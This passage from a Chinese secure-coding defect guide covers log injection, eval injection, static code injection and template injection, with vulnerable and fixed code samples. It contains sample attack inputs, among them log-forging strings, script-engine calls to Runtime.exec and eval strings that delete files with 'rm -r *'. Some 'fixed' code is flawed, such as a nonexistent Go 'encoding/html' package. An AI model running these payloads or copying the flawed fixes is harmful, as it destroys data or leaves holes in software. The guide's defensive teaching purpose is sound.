  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 未考虑用户输入数据中的CRLF字符导致日志注入**
**语言: **JAVA

**描述**
将未经验证的用户输入写入日志文件可致使攻击者伪造日志条目或将恶意信息内容注入日志。在以下情况下会发生 Log Forging 的漏洞：
1. 数据从一个不可信赖的数据源进入应用程序。
2. 数据写入到应用程序或系统日志文件中。

为了便于以后的审阅、统计数据收集或调试，应用程序通常使用日志文件来储存事件或事务的历史记录。根据应用程序自身的特性，审阅日志文件可在必要时手动执行，也可以自动执行，即利用工具自动挑选日志中的重要事件或带有某种倾向性的信息。

**案例分析**
下列 Web 应用程序代码会尝试从一个请求对象中读取整数值。如果数值未被解析为整数，输入就会被记录到日志中，附带一条提示相关情况的错误消息。
如果用户为 `val` 提交字符串 `twenty-one` ，则会记录以下条目：
```log
INFO: Failed to parse val=twenty-one
```
然而，如果攻击者提交字符串 `twenty-one%0a%0aINFO:+User+logged+out%3dbadguy` ，则日志中会记录以下条目：
```log
INFO: Failed to parse val=twenty-one
INFO: User logged out=badguy
```
显然，攻击者可以使用同样的机制插入任意日志条目。

**反例**
```java
String val = request.getParameter("val");
try {
    int value = Integer.parseInt(val);
}
catch (NumberFormatException nfe) {
log.info("Failed to parse val = " + val);
}
```

**正例**
```java
String val = request.getParameter("val");
try {
    int value = Integer.parseInt(val);
} catch (NumberFormatException e) {
    log.info("Failed to parse val", e);
}
```

**修复建议**
- 使用参数化日志记录：通过使用日志框架的参数化方法（如`log.info("Failed to parse val", e)`），避免直接拼接用户输入，防止日志注入。
- 记录异常信息：在日志中记录异常对象`e`，这样可以提供详细的错误信息，而无需暴露用户输入的具体内容。
- 避免记录敏感信息：不要在日志中记录用户输入的完整内容，特别是敏感信息，以减少潜在的安全风险。

**案例2: 未考虑用户输入数据中的CRLF字符导致日志注入**
**语言: **GO

**描述**
将未经验证的用户输入写入日志文件可致使攻击者伪造日志条目或将恶意信息内容注入日志。在以下情况下会发生 Log Forging 的漏洞：
1. 数据从一个不可信赖的数据源进入应用程序。
2. 数据写入到应用程序或系统日志文件中。

为了便于以后的审阅、统计数据收集或调试，应用程序通常使用日志文件来储存事件或事务的历史记录。根据应用程序自身的特性，审阅日志文件可在必要时手动执行，也可以自动执行，即利用工具自动挑选日志中的重要事件或带有某种倾向性的信息。

**案例分析**
下列 Web 应用程序代码会尝试从一个请求对象中读取整数值。如果数值未被解析为整数，输入就会被记录到日志中，附带一条提示相关情况的错误消息。
如果用户为 `logout` 提交字符串 `twenty-one` ，而且他可以创建一个名为 `admin` 的用户，则日志中会记录以下条目：
```log
Attempt to log out: name: admin logout: twenty-one
```
但是，如果攻击者可以创建用户名 `admin+logout:+1+++++++++++++++++++++++`，则日志中将记录以下条目：
```log
Attempt to log out: name: admin logout: 1                       logout: twenty-one
```
显然，攻击者可以使用同样的机制插入任意日志条目。

**反例**
```go
func someHandler(w http.ResponseWriter, r *http.Request){
    r.parseForm()
    name := r.FormValue("name")
    logout := r.FormValue("logout")
    ...
    if (logout){
        ...
    } else {
        log.Printf("Attempt to log out: name: %s logout: %s", name, logout)
    }
}
```

**正例**
```go
import (
    "encoding/html"
    "log"
    "net/http"
    "strconv"
)

func someHandler(w http.ResponseWriter, r *http.Request) {
    r.ParseForm()
    name := r.FormValue("name")
    logout := r.FormValue("logout")

    // 将logout字符串转换为布尔值
    isLogout, err := strconv.ParseBool(logout)
    if err != nil {
        // 如果转换失败，默认设置为false
        isLogout = false
    }

    if isLogout {
        // 处理登出逻辑
        // ...
    } else {
        // 转义name和logout，防止日志注入
        safeName := html.EscapeString(name)
        safeLogout := html.EscapeString(logout)
        log.Printf("Attempt to log out: name: %s logout: %s", safeName, safeLogout)
    }
}
```

**修复建议**
- 正确处理布尔值：将`logout`字段从字符串转换为布尔值，以准确判断登出操作。使用`strconv.ParseBool`进行转换，并处理可能的错误。
- 防止日志注入：对用户输入的`name`和`logout`字段使用`html.EscapeString`进行转义，确保它们不会干扰日志的格式化输出。
- 使用安全的格式化方法：在日志记录时，使用转义后的变量，避免使用 `%s` 格式说明符直接输出用户输入，防止格式字符串注入。

**案例3: 未考虑用户输入数据中的CRLF字符导致日志注入**
**语言: **JAVASCRIPT

**描述**
将未经验证的用户输入写入日志文件可致使攻击者伪造日志条目或将恶意信息内容注入日志。在以下情况下会发生 Log Forging 的漏洞：
1. 数据从一个不可信赖的数据源进入应用程序。
2. 数据写入到应用程序或系统日志文件中。

为了便于以后的审阅、统计数据收集或调试，应用程序通常使用日志文件来储存事件或事务的历史记录。根据应用程序自身的特性，审阅日志文件可在必要时手动执行，也可以自动执行，即利用工具自动挑选日志中的重要事件或带有某种倾向性的信息。

**案例分析**
下列 Web 应用程序代码会尝试从一个请求对象中读取整数值。如果数值未被解析为整数，输入就会被记录到日志中，附带一条提示相关情况的错误消息。
如果用户为 `val` 提交字符串 `twenty-one` ，则会记录以下条目：
```log
INFO: Failed to parse val=twenty-one
```
然而，如果攻击者提交字符串 `twenty-one%0a%0aINFO:+User+logged+out%3dbadguy` ，则日志中会记录以下条目：
```log
INFO: Failed to parse val=twenty-one
INFO: User logged out=badguy
```
显然，攻击者可以使用同样的机制插入任意日志条目。

**反例**
```javascript
var cp = require('child_process');
var http = require('http');
var url = require('url');

function listener(request, response){
  var val = url.parse(request.url, true)['query']['val'];
  if (isNaN(val)){
    console.log("INFO: Failed to parse val = " + val);
  }
  // ...
}
// ...
http.createServer(listener).listen(8080);
// ...
```

**正例**
```javascript
var cp = require('child_process');
var http = require('http');
var url = require('url');

function listener(request, response) {
    var parsedUrl = url.parse(request.url, true);
    var val = parsedUrl.query ? parsedUrl.query['val'] : undefined;

    if (typeof val !== 'undefined') {
        var numericVal = Number(val);
        if (isNaN(numericVal)) {
            console.log("INFO: Failed to parse val = " + JSON.stringify(val) + 
                        " from request " + request.method + " " + request.url);
        } else {
            // 处理有效的数值
        }
    } else {
        console.log("INFO: No val parameter provided in request " + request.method + " " + request.url);
    }

    // 继续处理响应
    response.writeHead(200, {'Content-Type': 'text/plain'});
    response.end('OK\n');
}

http.createServer(listener).listen(8080);
```

**修复建议**
- 输入验证：在处理用户输入时，始终进行严格的验证和类型检查。确保所有外部输入都被视为潜在的危险数据，并进行适当的清理和验证。
- 使用安全的输出方法：在记录日志或输出用户提供的数据时，使用安全的方法如 `JSON.stringify()` 来转义特殊字符，防止注入攻击。

**案例4: 未考虑用户输入数据中的CRLF字符导致日志注入**
**语言: **TYPESCRIPT

**描述**
将未经验证的用户输入写入日志文件可致使攻击者伪造日志条目或将恶意信息内容注入日志。在以下情况下会发生 Log Forging 的漏洞：
1. 数据从一个不可信赖的数据源进入应用程序。
2. 数据写入到应用程序或系统日志文件中。

为了便于以后的审阅、统计数据收集或调试，应用程序通常使用日志文件来储存事件或事务的历史记录。根据应用程序自身的特性，审阅日志文件可在必要时手动执行，也可以自动执行，即利用工具自动挑选日志中的重要事件或带有某种倾向性的信息。

**案例分析**
下列 Web 应用程序代码会尝试从一个请求对象中读取整数值。如果数值未被解析为整数，输入就会被记录到日志中，附带一条提示相关情况的错误消息。
如果用户为 `val` 提交字符串 `twenty-one` ，则会记录以下条目：
```log
INFO: Failed to parse val=twenty-one
```
然而，如果攻击者提交字符串 `twenty-one%0a%0aINFO:+User+logged+out%3dbadguy` ，则日志中会记录以下条目：
```log
INFO: Failed to parse val=twenty-one
INFO: User logged out=badguy
```
显然，攻击者可以使用同样的机制插入任意日志条目。

**反例**
```javascript
var cp = require('child_process');
var http = require('http');
var url = require('url');

function listener(request, response){
  var val = url.parse(request.url, true)['query']['val'];
  if (isNaN(val)){
    console.log("INFO: Failed to parse val = " + val);
  }
  // ...
}
// ...
http.createServer(listener).listen(8080);
// ...
```

**正例**
```javascript
var cp = require('child_process');
var http = require('http');
var url = require('url');

function listener(request, response) {
    var parsedUrl = url.parse(request.url, true);
    var val = parsedUrl.query ? parsedUrl.query['val'] : undefined;

    if (typeof val !== 'undefined') {
        var numericVal = Number(val);
        if (isNaN(numericVal)) {
            console.log("INFO: Failed to parse val = " + JSON.stringify(val) + 
                        " from request " + request.method + " " + request.url);
        } else {
            // 处理有效的数值
        }
    } else {
        console.log("INFO: No val parameter provided in request " + request.method + " " + request.url);
    }

    // 继续处理响应
    response.writeHead(200, {'Content-Type': 'text/plain'});
    response.end('OK\n');
}

http.createServer(listener).listen(8080);
```

**修复建议**
- 输入验证：在处理用户输入时，始终进行严格的验证和类型检查。确保所有外部输入都被视为潜在的危险数据，并进行适当的清理和验证。
- 使用安全的输出方法：在记录日志或输出用户提供的数据时，使用安全的方法如 `JSON.stringify()` 来转义特殊字符，防止注入攻击。

#### CWD-1089-000 日志输出中和不当（“日志注入”）

#### CWD-1089-001 【jul】jul日志组件打印不可信内容造成日志注入问题

#### CWD-1089-002 【log4j2】log4j2日志组件打印不可信内容造成日志注入问题

#### CWD-1089-003 【logback】logback日志组件打印不可信内容造成日志注入问题

#### CWD-1089-004 【slf4j】slf4j日志组件打印不可信内容造成日志注入问题

#### CWD-1089-005 日志记录ip时仅通过请求参数x-forwarded-for获取客户端IP，存在IP伪造风险

**业界缺陷**

- [CWE-117: Improper Output Neutralization for Logs](https://cwe.mitre.org/data/definitions/117.html)
---

# CWD-1094 动态代码注入（“Eval注入”）

**别名: **动态执行代码中的指令控制/清理/中和不当（“Eval注入”）；直接执行动态代码（“Eval注入”）

**描述**
从上游组件接收输入，但在动态评估调用（例如`eval`）中使用输入之前，不会中和或不正确地中和代码语法。这可能允许攻击者执行任意代码，或者至少修改可以执行的代码。


- 注入的代码可以访问受限的数据/文件。- 在某些情况下，可注入代码控制身份验证；这可能导致远程漏洞。- 通过注入的代码，攻击者可以直接访问资源。- 当产品允许用户的输入包含代码语法时，攻击者可能会精心制作代码，从而改变产品的预期控制流。因此，代码注入通常会导致执行任意代码。代码注入攻击在几乎所有情况下都可能导致数据完整性的丧失，因为注入的控制平面数据总是在数据调用或写入时偶然发生的。- 通常，注入的控制代码执行的操作是未记录的。
**语言: **JAVA,PYTHON

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：重构代码
  重新调整架构，使它根本不需要使用`eval()`、`exec()`、`Function()`等。
- 策略2：沙箱隔离
  在类似的沙箱环境中运行代码，在进程和操作系统之间强制实施严格的边界。这可以有效地限制特定目录中可以访问哪些文件，或者软件可以执行哪些命令。例如包括`Unix chroot`和`AppArmor`。一般来说，托管代码可以提供一些保护。它只能限制对操作系统的影响；应用程序的其余部分仍然可能受到危害。

**编码**
- 策略1：遵循编程规范
  遵循各语言编程规范。例如Python【禁止使用eval和exec函数执行不可信代码】条款提出，使用`ast.iteral_eval()`函数而不是eval，因为它是有意避免执行代码的。但是，攻击者仍然可能通过深度嵌套的结构导致过多的内存或堆栈消耗。
- 策略2：输入验证 `推荐`
  如果必须使用动态执行，需：
  - 对输入进行严格的白名单校验（如仅允许特定字符或格式）。
  - 转义或过滤所有用户输入中的危险字符（如`()`、`{}`、`;`等）。
  1. 在验证输入之前，应将输入解码并规范化为应用程序当前的内部表示。
     ```java
     // Java示例
     String canonicalPath = new File(userInput).getCanonicalPath();
     ```
     - C语言中 `realpath()`
     - Java中 `getCanonicalPath()`
     - ASP.NET中 `GetFullPath()`
     - Perl中 `realpath()`或`abs_path()`
     - PHP中 `realpath()`
  2. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  3. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  4. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists（`黑名单`）对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
- 策略3：使用安全库
  使用安全的解析库（如用`JSON.parse()`替代`eval()`解析JSON数据。）。

**开发者测试**
- 策略1：单元测试
  覆盖所有动态代码执行场景，测试恶意输入（如注入`"1+1; process.exit()"`）。

**代码Review**
- 策略1：代码审查
  重点审查所有动态代码执行逻辑，确认是否必要且安全。
- 策略2：输入校验检查
  检查输入验证是否严格（如是否依赖黑名单而非白名单）。
- 策略3：验证沙箱
  验证沙箱或隔离环境的实现是否完备（如Node.js的`vm2`模块）。
- 策略4：审核敏感操作
  确认敏感操作（如文件、数据库访问）未在动态代码中暴露。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 使用eval()拼接外部命令导致代码注入**
**语言: **JAVA

**描述**
动态代码注入（Eval注入）是指应用程序接收用户输入并将其作为代码直接执行的安全漏洞。在Java中，虽然不像某些脚本语言有直接的`eval()`函数，但通过脚本引擎（如JavaScript引擎）或反射机制，仍然可能实现类似功能。攻击者可以利用这种漏洞执行任意代码，导致服务器被完全控制。

**案例分析**
- 直接执行用户输入：代码直接将用户提供的字符串作为JavaScript代码执行，没有任何过滤或验证。
- 任意代码执行：攻击者可以构造恶意输入执行任意Java代码，如启动计算器（示例中）、删除文件、下载恶意软件等。
- 权限提升：执行的代码具有与Java应用程序相同的权限，可能导致服务器完全沦陷。
- 脚本引擎风险：使用脚本引擎（如JavaScript）时，攻击者可以利用脚本语言的特性绕过一些Java安全限制。

**反例**
```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;

public class EvalInjectionVulnerable {
    public static void main(String[] args) {
        ScriptEngineManager manager = new ScriptEngineManager();
        ScriptEngine engine = manager.getEngineByName("JavaScript");
        
        // 用户提供的输入（实际可能来自HTTP请求参数）
        String userInput = "java.lang.Runtime.getRuntime().exec('calc.exe')";
        
        try {
            // 直接执行用户输入的代码
            engine.eval(userInput);
        } catch (ScriptException e) {
            // ...异常处理;
        }
    }
}
```

**正例**
```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
import javax.script.SimpleBindings;
import java.util.Map;
import java.util.HashMap;

public class EvalInjectionFixed {
    public static void main(String[] args) {
        ScriptEngineManager manager = new ScriptEngineManager();
        ScriptEngine engine = manager.getEngineByName("JavaScript");
        
        // 用户提供的输入（实际可能来自HTTP请求参数）
        String userInput = "2 + 3"; // 只允许数学表达式
        
        // 验证输入是否为简单的数学表达式
        if (!isSafeMathExpression(userInput)) {
            // ...处理;;
            return;
        }
        
        try {
            // 使用绑定对象限制可访问的变量和方法
            Map<String, Object> bindings = new HashMap<>();
            bindings.put("allowedValue", 5);
            
            // 在受限环境中执行
            Object result = engine.eval(userInput, new SimpleBindings(bindings));
            Logger.info("Result: " + result);
        } catch (ScriptException e) {
            // ...异常处理;
        }
    }
    
    private static boolean isSafeMathExpression(String input) {
        // 只允许数字、基本运算符和括号
        return input.matches("^[0-9+\\-*/()\\s.]+$");
    }
}
```

**修复建议**
- 输入验证：严格验证用户输入，只允许预期的格式（如示例中只允许简单的数学表达式）。
- 使用绑定对象：通过 `SimpleBindings` 限制脚本可以访问的变量和方法。
- 白名单机制：建立允许的操作和字符白名单，拒绝所有不符合的内容。
- 沙箱环境：考虑使用Java安全管理器创建沙箱环境，限制脚本引擎的权限。
- 避免动态执行：尽可能寻找不需要动态执行代码的替代方案。

**案例2: 使用eval()拼接外部命令导致代码注入**
**语言: **PYTHON

**描述**
脚本要求用户提供一个数字列表作为输入，并将它们相加。

**案例分析**
`eval()`函数可以获取用户提供的列表并将其转换为Python列表对象，因此允许程序员使用列表理解方法来处理数据。但是，如果将代码提供给`eval()`函数，它将执行该代码。例如，恶意用户可以提供以下字符串：
```python
__import__('subprocess').getoutput('rm -r *')
```
这将删除当前目录中的所有文件。因此，不建议将`eval()`与不可信输入一起使用。

**反例**
```python
def main():
sum = 0
numbers = eval(input("Enter a space-separated list of numbers: "))
for num in numbers:
sum = sum + num
print(f"Sum of {numbers} = {sum}")
main()
```

**正例**
```python
def main():
sum = 0
numbers = input("Enter a space-separated list of numbers: ").split(" ")
try:
for num in numbers:
sum = sum + int(num)
print(f"Sum of {numbers} = {sum}")
except ValueError:
print("Error: invalid input")
main()
```

**修复建议**
- 在不使用`eval()`的情况下实现此目的的一种方法是在`try/extect`块中对输入应用整数转换。如果用户提供的输入不是数字，这将引发ValueError。通过避免`eval()`，输入字符串没有机会作为代码执行。
- 另一种常用的缓解方法是使用`ast.iteral_eval()`函数，因为它是有意避免执行代码的。但是，攻击者仍然可能通过深度嵌套的结构导致过多的内存或堆栈消耗。所以python文档不鼓励在不可信的数据上使用`ast.iteral_eval()`。

#### CWD-1094-000 动态代码注入（“Eval注入”）

#### CWD-1094-001 动态回调函数注入

#### CWD-1094-002 数据存储字段代码化

**业界缺陷**

- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html)
---

# CWD-1095 静态代码注入

**别名: **静态保存代码中的指令控制/清理/中和不当（“静态代码注入”）；静态代码直接注入

**描述**
从上游组件接收输入，但在将输入插入可执行资源（例如库、配置文件或模板）之前，它不会或错误地消除代码语法。这可能允许攻击者执行任意代码，或者至少修改可以执行的代码。


- 注入的代码可以访问受限的数据/文件。- 在某些情况下，可注入代码控制身份验证；这可能导致远程漏洞。- 通过注入的代码，攻击者可以直接访问资源。- 代码注入攻击几乎在所有情况下都会导致数据完整性丢失，因为注入的控制平面数据总是在数据调用或写入时偶然发生的。此外，代码注入通常会导致执行任意代码。- 通常，注入的控制代码执行的操作是未记录的。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：最小权限原则
  设计时限制代码执行权限，避免敏感指令的直接调用。
- 策略2：输入域隔离
  将静态代码（如配置文件、模板）与动态执行逻辑分离，通过沙箱或安全容器隔离高风险操作。
- 策略3：白名单机制
  设计仅允许预定义的静态指令集，禁止动态加载未签名的代码片段。
- 策略4：安全模板引擎
  使用无逻辑模板（如Mustache）或强制转义的引擎（如Jinja2的自动转义）。

**编码**
- 策略1：输入验证 `推荐`
  对嵌入的静态代码（如SQL、HTML模板）进行语法校验，确保无恶意片段。
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists（`黑名单`）对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
- 策略2：输出编码
  执行适当的输出验证和转义，以消除写入代码文件的数据中的所有代码语法。
- 策略3：不可变数据
  使用`final`或`const`定义静态代码片段，防止运行时篡改。
- 策略4：硬编码禁止动态执行
  避免使用`eval()`、`exec()`等函数，或通过反射动态加载代码。

**开发者测试**
- 策略1：注入测试用例
  在单元测试中模拟静态代码注入（如恶意配置文件内容），验证系统是否拒绝或中和攻击。

**代码Review**
- 策略1：重点审查高风险函数
  检查eval()、System()、Runtime.exec()等函数的调用场景。
- 策略2：静态代码来源追踪
  确认所有嵌入的静态代码（如SQL查询、正则表达式）来源可信且经过校验。
- 策略3：逻辑一致性检查
  确保静态代码的加载逻辑与设计一致，无隐蔽的后门或动态拼接。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 直接执行未经处理的用户输入字符串导致静态代码注入**
**语言: **JAVA

**描述**
静态代码注入是指攻击者通过在应用程序中注入恶意代码或指令，使得这些代码在编译时或运行时被包含在应用程序中执行。这种漏洞常出现在动态生成代码、反射调用、表达式解析或模板渲染等场景中。一个Java程序中由于未对用户输入进行适当清理而导致静态代码注入的漏洞。

**案例分析**
- 风险点：`calculate`方法直接使用`ScriptEngine`执行未经处理的用户输入字符串。
- 攻击向量：攻击者可以构造特殊的数学表达式，包含JavaScript代码甚至Java反射调用，从而执行任意系统命令。
- 潜在危害：执行任意系统命令，访问或修改文件系统，发起网络请求，泄露敏感信息。
- 漏洞成因：未对用户输入进行验证和清理，直接将其作为可执行代码处理。

**反例**
```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;

public class Calculator {
    private ScriptEngine engine;
    
    public Calculator() {
        ScriptEngineManager manager = new ScriptEngineManager();
        this.engine = manager.getEngineByName("js");
    }
    
    public Object calculate(String expression) throws ScriptException {
        // 直接执行用户输入的表达式
        return engine.eval(expression);
    }
    
    public static void main(String[] args) {
        Calculator calc = new Calculator();
        try {
            // 正常使用
            Logger.info("2+2=" + calc.calculate("2+2"));
            
            // 恶意使用 - 静态代码注入
            Logger.info("恶意代码执行结果: " + 
                calc.calculate("java.lang.Runtime.getRuntime().exec('calc.exe')"));
        } catch (ScriptException e) {
            // ...处理异常
        }
    }
}
```

**正例**
```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
import java.util.regex.Pattern;

public class SecureCalculator {
    private static final Pattern SAFE_EXPRESSION = Pattern.compile("^[0-9+\\-*/%(). ]+$");
    private ScriptEngine engine;
    
    public SecureCalculator() {
        ScriptEngineManager manager = new ScriptEngineManager();
        this.engine = manager.getEngineByName("js");
    }
    
    public Object calculate(String expression) throws ScriptException, IllegalArgumentException {
        // 验证表达式只包含安全的数学字符
        if (!SAFE_EXPRESSION.matcher(expression).matches()) {
            throw new IllegalArgumentException("表达式包含非法字符");
        }
        
        // 限制脚本引擎的访问权限
        engine.eval("Object.prototype.getRuntime=null;");
        engine.eval("Object.prototype.exec=null;");
        
        // 执行经过验证的表达式
        return engine.eval(expression);
    }
    
    public static void main(String[] args) {
        SecureCalculator calc = new SecureCalculator();
        try {
            // 正常使用
            Logger.info("2+2=" + calc.calculate("2+2"));
            
            // 尝试恶意使用 - 将被阻止
            Logger.info("恶意代码执行结果: " + 
                calc.calculate("java.lang.Runtime.getRuntime().exec('calc.exe')"));
        } catch (Exception e) {
            // ...处理异常
        }
    }
}
```

**修复建议**
- 输入验证：使用正则表达式严格限制允许的输入字符，只允许数字、基本运算符和括号。
- 沙箱限制：在脚本引擎中禁用危险的对象和方法，防止反射调用。
- 异常处理：对非法输入抛出明确的异常，而不是尝试执行。

#### CWD-1095-000 静态代码注入

**业界缺陷**

- [CWE-96: Improper Neutralization of Directives in Statically Saved Code ('Static Code Injection')](https://cwe.mitre.org/data/definitions/96.html)
---

# CWD-1096 模板注入

**别名: **模板引擎中使用的特殊元素中和不当（“模板注入”）；服务器端模板注入/SSTI；客户端模板注入/CSTI

**描述**
使用模板引擎来插入或处理受外部影响的输入，但不会中和或不正确中和特殊元素或语法，这些元素或语法在引擎处理时可能被解释为模板表达式或其他代码指令。模板注入是一种攻击技术，攻击者通过在模板中注入恶意代码，来获取或篡改应用程序的数据。模板注入通常发生在应用程序使用模板引擎来生成 HTML 或其他格式的输出时。攻击者可以通过在模板中注入恶意代码，来获取应用程序的敏感数据，例如用户的登录凭证、信用卡信息等。攻击者还可以通过模板注入来篡改应用程序的输出，例如修改网页的内容、添加恶意链接等。


- 许多Web应用程序使用模板引擎，允许开发人员在自由文本或消息中插入外部影响的值，以便生成完整的网页、文档、消息等。这类引擎包括`Twig`、`Jinja2`、`Pug`、`Java Server Pages`、`FreeMarker`、`Velocity`、`ColdFusion`、`Smarty`和许多其他引擎——包括PHP本身。一些CMS（内容管理系统）也使用模板。- 模板引擎通常有自己的自定义命令或表达式语言。如果攻击者可以在模板被处理之前影响输入，则攻击者可以调用任意表达式，即执行注入攻击。例如，在某些模板语言中，攻击者可以注入表达式 `{{7*7}}` ，并确定输出是否返回 `49` ，语法根据语言的不同而不同。- 模板引擎可以在服务器上使用，也可以在客户端上使用，因此 `双方` 都可能受到注入的影响。攻击的机制或受影响的技术可能不同，但错误在本质上是相同的。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：禁用动态模板
  在架构设计阶段，优先选择静态模板或纯文本渲染方案，避免动态解析用户输入。
- 策略2：白名单控制
  定义允许使用的模板语法/标签白名单，禁止未声明的功能（如Java Velocity中禁用`#exec`指令）。
- 策略3：沙箱隔离
  选择提供沙箱或受限模式，或至少限制任何可用表达式、函数调用或命令的能力的模板引擎。

**编码**
- 策略1：输入过滤
  对所有用户输入的模板变量进行严格转义（如HTML转义、JavaScript转义），确保其仅作为数据而非代码解析。
- 策略2：上下文感知转义
  根据输出上下文（HTML/JS/SQL）选择对应的转义库（如OWASP ESAPI）。
- 策略3：禁用危险函数
  避免直接调用`eval()`、`new Function()`或引擎的内置执行函数（如Python Jinja2的`{{ code }}`中的`code`过滤）。
- 策略4：沙箱隔离
  使用模板引擎的沙盒或受限模式。

**开发者测试**
- 策略1：单元测试注入用例
  编写测试用例模拟攻击输入（如`${7*7}`、`<%= system("rm -rf") %>`），验证模板引擎是否正确拦截或转义。
- 策略2：边界测试
  测试空输入、超长输入、特殊字符（`${}\<>`）等边界场景。

**代码Review**
- 策略1：重点审查拼接点
  检查所有模板拼接代码（如`String template = "Hello " + userInput;`），确保未直接拼接未过滤输入。
- 策略2：验证上下文转义
  确认转义函数与输出场景匹配（如HTML中使用`HtmlUtils.escapeHtml()`而非通用转义）。
- 策略3：检查引擎配置
  审查模板引擎的安全配置（如Thymeleaf的`@EnableWebSecurity`模式、Django的`autoescape=True`）。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
